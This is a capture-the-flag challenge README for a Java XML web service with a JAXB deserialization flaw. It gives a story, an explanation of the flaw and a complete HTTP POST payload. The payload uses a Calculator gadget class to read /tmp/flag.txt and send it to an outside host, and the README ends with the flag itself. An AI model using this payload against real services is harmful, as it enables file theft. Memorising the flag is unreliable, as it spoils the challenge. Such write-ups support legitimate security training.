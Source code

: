 ## Background

    Author: spipm
    Category: Webservices
    Difficulty: Easy to Medium

## Technical

This XML service deserializes user input. It has an object field in its class that allows users to enter all objects in scope, and it can be used to get the flag using the Calculator class as a gadget.

## Story

It's a busy day in class. The teacher bot explains that the students need to use the nodecalculator service to calculate their binary distance to the closest leader bot, but the service is still being made. The young bots complain to you, "This doesn't make any sense to me, although to be honest, I didn't make any notes. You're a human, can't you figure out how this service works?"

Can you figure out how to use this service?

Sample request:
(POST request, Content-Type is application/xml)
<Node><location>testing</location></Node>

<img src="./calculator.jpg" width="500">

## Exploit

The code accepts an Object as a parameter, which allows for a deserialization attack. Since JAXB allows access to setters from all classes in scope, you can create a Calculator class to send the flag to yourself.

```
POST /NodeCalculator/nodeCalc HTTP/1.1
Host: localhost:8080
Content-Type: application/xml
Content-Length: 377

<?xml version="1.0" encoding="UTF-8" standalone="yes"?>
<Node>
<constructor xsi:type="calculator" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance">
	<locationA>noxxe</locationA><locationB>/tmp/flag.txt</locationB>
	<serverValidationCheck>http://host/</serverValidationCheck>
</constructor>
<location>testing</location>
</Node>
```

## Flag

brck{Y0u_Pay3d_Att3nt10n_In_Cl4ss}
